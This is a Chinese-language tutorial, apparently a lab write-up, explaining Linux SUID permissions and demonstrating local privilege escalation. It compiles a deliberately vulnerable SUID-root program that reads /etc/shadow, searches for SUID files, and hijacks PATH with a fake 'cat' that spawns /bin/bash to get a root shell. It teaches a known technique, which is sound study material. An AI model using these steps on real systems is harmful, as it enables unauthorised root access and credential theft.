 ## 1、简介

SUID是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行。

SUID是一种对二进制程序进行设置的特殊权限，可以让二进制程序的执行者临时拥有属主的权限（仅对拥有执行权限的二进制程序有效）。例如，所有用户都可以执行passwd命令来修改自己的用户密码，而用户密码保存在/etc/shadow文件中。仔细查看这个文件就会发现它的默认权限是000，也就是说除了root管理员以外，所有用户都没有查看或编辑该文件的权限。但是，在使用passwd命令时如果加上SUID特殊权限位，就可让普通用户临时获得程序所有者的身份，把变更的密码信息写入到shadow文件中。这很像我们在古装剧中见到的手持尚方宝剑的钦差大臣，他手持的尚方宝剑代表的是皇上的权威，因此可以惩戒贪官，但这并不意味着他永久成为了皇上。因此这只是一种有条件的、临时的特殊权限授权方法。

c源代码 suid.c

```c
cat << EOF >suid.c
#include<stdlib.h>
#include <unistd.h>
int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}
EOF
```

以 root进行编译和权限设置

## 2、编译

```bash
gcc suid.c -o suid-exp
```

## 3、设置suid位

```bash
chmod 4775 suid-exp 
```

s属性 标识这个程序有suid的属性

```bash
ls -l suid-exp
find /tmp -perm -u=s -type f 2>/dev/null
```

![image-20210426224653867](../acess/image-20210426224653867.png) 

## 4、切换用户执行

![image-20210426225117897](../acess/image-20210426225117897.png)

## 5、劫持环境变量提权

因为system函数是继承环境变量 可以通过替换环境变量可以达到执行任意命令。
创建一个文件

```bash
echo "/bin/bash">cat && chmod 777 cat 
```

在tmp目录下建立一个文件cat 它会执行一个shell

查看当前环境变量

```bash
echo $PATH 
```

把当前tmp目录增加到环境变量

```bash
export PATH=.:$PATH
```

设置了PATH 执行cat的时候会优先从当前目录下查找程序。所以cat命令会被劫持，

就可以执行任意命令

